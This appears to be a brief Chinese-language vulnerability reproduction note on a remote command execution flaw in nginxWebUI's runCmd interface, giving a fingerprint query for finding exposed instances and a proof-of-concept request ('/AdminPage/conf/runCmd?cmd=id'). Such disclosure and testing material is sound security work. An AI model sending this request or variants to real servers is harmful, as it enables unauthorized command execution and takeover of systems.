 # nginxWebUI runCmd 远程命令执行漏洞

## 漏洞描述

nginxWebUI runCmd 接口存在远程命令执行漏洞，攻击者通过漏洞可以获取到服务器权限，执行任意命令

## 漏洞影响

nginxWebUI

## 网络测绘

```
title="nginxwebui"
```

## 漏洞复现

登录页面

![image-20230704113502611](./images/image-20230704113502611.png)

验证请求包

```
/AdminPage/conf/runCmd?cmd=id
```

![image-20230704113520591](./images/image-20230704113520591.png)